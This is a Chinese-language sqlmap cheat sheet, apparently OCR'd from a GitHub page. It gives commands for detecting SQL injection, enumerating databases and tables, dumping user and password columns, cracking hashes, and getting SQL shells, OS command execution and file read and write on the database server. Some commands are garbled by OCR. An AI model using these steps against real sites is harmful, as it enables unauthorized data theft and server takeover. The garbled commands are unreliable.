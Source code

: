 ## 注入点判断
1. 判断是否存在注入点

```
sqlmap -u http://xxx
```


当参数有多个时，需要加双引号

```
sqlmap -u "http://xxx/?id=1&uid=2"
```


2. 判断http报文中是否存在注入点
将http报文写入一个文本，然后使用

```
salmap -r txt文本
```


## 存在注入点后，进行下一步操作
1. 查询当前用户下的所有数据库

```
sqlmap -u http://xxx/ --dbs
```


2. 确认数据库后，进行表的查询.  
比如上面一条语句确认有以下几个数据库
<img src="../pictures/j4ddnt2dp1.png" width="600" />
那么现在查询dkeye数据库中有哪些表

```
sqlmap -u http://xxx/ -D dkeye --tables
```


3. 确认表后，获取字段名
比如上面查询表名后，确定查询其中的user_info表
<img src="../pictures/j79q4i3bahf.png" width="200" />
使用---columns获取该数据表中的字段名。

```
sqlmap -u http://xxx/ -D dkeye -T user_info -- columns
```


4. 确定字段后，使用命令获取某个字段的内容

```
sqlmap.py -u http://xxx/ - D dkeye -T use＿info -C user,name,password --dump
```


## 获取与数据库用户相关的信息
1. 获取到数据库中的所有用户

```
salmap -u "http://xxx/" --users
```


使用该条语句的前提是，当前用户有权限读取包含所有用户的表的权限时。
2. 获取数据库中用户的密码

```
salmap -u "http://xxx/" --password
``` 
获取到的密码是经过md5加密的，可以在[md5解密网站](https://www.cmd5.com/)
3. 获取当前网脑数据库的名称
```


salmap -u "http://xxx/" --current-db

``` 
4. 获取当前网览数据库的用户名称
```


salmap -u "http://xxx/" --current-user

## 其他参数
1. --level 5：探测等级  

等级|使用
--|--
level 2| HTTP cookie 会加入
level 3| HTTP User-Agent/Referer会加入
level 5| 自动破解出cookie 、 XFF等头部注入。

2. --is-dba 当前用户是否为dba
3. --roles ：列出数据库管理员角色
4. --referer: HTTP Referer 头部伪造。   
指定该字段，会修改sqlmap发送的http报文中的refer字段
5. --sql-shell 运行自定义 SOL 语句

```
sqlmap.py -u http://xxx/ --sql-shell
```


会创建一个sql shell 交互界面，如下图
<img src="../pictures/blq8dh3rbhg.png" width="600" />

6. --os-cmd ，--as-shell ：运行任意操作系统命令
7. --file-read:：从数据库服务器申读取文件
8. --file-write --file-dest 上传文件到数据库服务器申
